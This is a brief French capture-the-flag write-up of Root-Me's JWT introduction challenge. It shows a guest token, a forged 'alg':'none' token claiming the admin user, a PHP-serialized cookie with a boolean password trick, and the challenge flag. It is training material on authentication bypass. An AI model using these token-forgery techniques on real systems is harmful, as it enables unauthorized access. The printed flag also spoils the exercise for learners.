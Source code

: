 # [JSON Web Token (JWT) - Introduction](https://www.root-me.org/fr/Challenges/Web-Serveur/JSON-Web-Token-JWT-Introduction)

[Base64decode.org](https://www.base64decode.org/)
[CyberChef](https://gchq.github.io/CyberChef/)
On peut trouver un cookie 

Valeur : a%3A2%3A%7Bs%3A5%3A%22login%22%3Bs%3A10%3A%22superadmin%22%3Bs%3A8%3A%22password%22%3Bb%3A1%3B%7D
URL Decoded : a:2:{s:5:"login";s:10:"superadmin";s:8:"password";b:1;}

Quand on se connect en Quest 

JWT : eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.OnuZnYMdetcg7AWGV6WURn8CFSfas6AQej4V9M13nsk

{"typ":"JWT","alg":"none"}{"username":"admin"}

eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.

S1gn4tuR3_v3r1f1c4t10N_1S_1MP0Rt4n7

